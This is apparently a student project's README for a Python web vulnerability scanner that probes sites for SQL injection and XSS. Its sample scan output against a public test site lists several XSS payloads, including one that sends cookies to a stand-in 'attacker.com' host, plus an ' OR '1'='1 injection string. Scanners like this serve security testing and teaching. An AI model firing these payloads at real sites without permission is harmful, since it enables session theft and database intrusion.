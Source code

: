 # CODTECH_ADVANCED_TASK_2
# Web Vulnerability Scanner

## Personal information 
Name : Alphae P Khristi
Compamy : CODTECH IT Solutions
ID : CT08EWQ
Domain : CYBER ECURITY AND ETHICAL HACKING
Duration : 20/12/2024 to 20/1/2025
Mentor : Neela Santhosh Kumar 

## Overview

This is a simple Python-based tool designed to scan websites for common vulnerabilities, including SQL injection and Cross-Site Scripting (XSS). The tool uses various techniques to detect these vulnerabilities and generates a detailed report. It utilizes the `requests`, `BeautifulSoup`, and `pyfiglet` libraries for web scraping and logging purposes.

## Features

- **SQL Injection Detection**: Identifies SQL injection vulnerabilities by testing various SQL payloads in URL parameters.
- **Cross-Site Scripting (XSS) Detection**: Detects both reflected and stored XSS vulnerabilities by injecting common XSS payloads.
- **Form Scanning**: Scans HTML forms for potential XSS vulnerabilities.
- **Multi-Page Scanning**: The scanner follows links within the same domain to detect vulnerabilities across multiple pages.
- **Logging and Reporting**: Generates a detailed vulnerability report, including the type, severity, and evidence for each identified vulnerability.

## Installation

#### 1. Clone The repository : 

```bash 
git clone https://github.com/hipremsoni/CODTECH_ADVANCED_TASK_2.git
cd CODTECH_ADVANCED_TASK_2
```

#### 2. Install the required Python packages using `pip` :

```bash 
pip install -r requirements.txt 
```

#### 3. Run The Tool :
```bash 
python3 web_vuln_scanner.py 
```

### Prerequisites

- Python 3.x
- Pip (Python package installer)

The `requirements.txt` file should include:

```text
requests
beautifulsoup4
pyfiglet
colorama
```

## Usage

### Running the Scanner

1. Run the script:

```bash
python web_vuln_scanner.py
```

2. You will be prompted to enter the target website URL (e.g., `http://example.com`).

3. The scanner will analyze the website and its links, testing for common vulnerabilities such as SQL injection and XSS.

4. After the scan completes, a detailed report will be displayed on the terminal.
### Screenshots
![image-1](https://github.com/user-attachments/assets/f1acb96d-21ee-486d-a02c-cae57504666d)
![image-2](https://github.com/user-attachments/assets/84699664-a003-48ab-a4cf-105b23fa8d24)

### Example


```bash
__        __   _      __     __     _       
\ \      / /__| |__   \ \   / /   _| |_ __
 \ \ /\ / / _ \ '_ \   \ \ / / | | | | '_ \
  \ V  V /  __/ |_) |   \ V /| |_| | | | | |
   \_/\_/ \___|_.__/     \_/  \__,_|_|_| |_|

 ____
/ ___|  ___ __ _ _ __  _ __   ___ _ __
\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 ___) | (_| (_| | | | | | | |  __/ |
|____/ \___\__,_|_| |_|_| |_|\___|_|


- Created by Premkumar Soni
Welcome to the Web Application Vulnerability Scanner!

Enter the target website URL (e.g., http://example.com): http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com/privacy.php
2025-01-15 11:18:28,918 - ERROR - Error scanning http://testphp.vulnweb.com/privacy.php: 404 Client Error: Not Found for url: http://testphp.vulnweb.com/privacy.php
[Scanning] http://testphp.vulnweb.com/guestbook.php
[Scanning] http://testphp.vulnweb.com/userinfo.php
[Scanning] http://testphp.vulnweb.com/disclaimer.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/
[Scanning] http://testphp.vulnweb.com/categories.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/
[Scanning] http://testphp.vulnweb.com/login.php
[Scanning] http://testphp.vulnweb.com/listproducts.php?cat=2
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
[SQL Injection Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1

 ____                    ____                       _
/ ___|  ___ __ _ _ __   |  _ \ ___ _ __   ___  _ __| |_
\___ \ / __/ _` | '_ \  | |_) / _ \ '_ \ / _ \| '__| __|
 ___) | (_| (_| | | | | |  _ <  __/ |_) | (_) | |  | |_
|____/ \___\__,_|_| |_| |_| \_\___| .__/ \___/|_|   \__|
                                  |_|

Target: http://testphp.vulnweb.com
Scan Date: 2025-01-15T11:18:48.820498
Pages Scanned: 10

Vulnerabilities Found:

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
---

Type: SQL Injection
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: Critical
Description: SQL Injection vulnerability detected.
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1
```

## Acknowledgements

- `requests` for making HTTP requests.
- `BeautifulSoup` for parsing HTML.
- `pyfiglet` for generating ASCII art.
- `colorama` for adding color to terminal output.

---

### Notes

- The tool is intended for educational purposes only. Use it responsibly and only on websites you own or have explicit permission to test.
- This tool is a basic implementation of a web vulnerability scanner and can be extended with additional vulnerability detection techniques.

---
